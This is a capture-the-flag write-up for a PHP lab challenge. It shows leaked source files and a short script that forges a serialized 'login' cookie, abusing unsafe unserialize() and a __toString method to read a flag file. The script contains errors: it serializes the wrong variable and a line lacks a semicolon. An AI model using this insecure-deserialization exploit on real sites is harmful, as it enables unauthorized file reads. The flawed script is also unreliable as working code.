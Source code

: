 ### Super Serial Challenge 180

Access to the lab, go `dirsearch`, got:

![inf](image.png)

let's get some clue, on `robots.txt` 

![admin.phps](image-1.png)

`phps` is `php source`, it's mean i can read a source php, let's try to `admin.phps` but `404`

![404](image-2.png)

try others source code from `dirsearch`

got [authentication.phps](phps/authentication.php), [cookie.phps](phps/cookie.php), [index.phps](phps/index.php) source

let's read, 

```php
//index.phps:4-16
if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
```

This code meaning, `$perm_res` will init a contruct `permissions` with 2 paramas from browser is `$username` and `$password` (class permissons in `cookie.phps`) 

After this, `$perm_res` will be validate to confirm it is valid to access the webpage and cookie will be set `login` with value  `$perm_res` will be by `serialize()`

now, i need more information of `$perm_res`

on `cookie.phps` we got 2 function `is_guest()` and `is_admin()`

but on line 57-66, cookie was unserialize and web system using this to authentication, and of course, it put in try-catch block

So, if `$perm` will be get cookie from browser and get unserialize `login` cookie, after this, `$perm` will be pass `is_guest()` and `is_admin()` to confirm `role` access. and if not is_guest() or is_admin(), it's will be throw exception with `$perm` information. I know it is cookie and i will controled it

```php
//cookie.phps:57-66
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

Next, check `authentication.phps`, it's using `cookie.php:57-66` to authenticate 

when user want to acccess the webpage, user must be admin

```php
require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```

When it's admin, init a `access.log` and append data to the `log file`, may be i can using this to exploit this vulnerable

Now, i got `cookie` can be control, write a `script` make a log file reference `../flag` and serialize.

I need modify `authentication source`

```php
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

$perm = new access_log("../flag");   //create a new access_log
$perm_enc = urlencode(base64_encode(serialize($perm_res))) // serialize malicious object
echo $perm_enc;   // print $perm_enc
?>
```
run it got cookie

![cookie](image-3.png)

manipulation `login` value

![ctfflag](image-4.png)
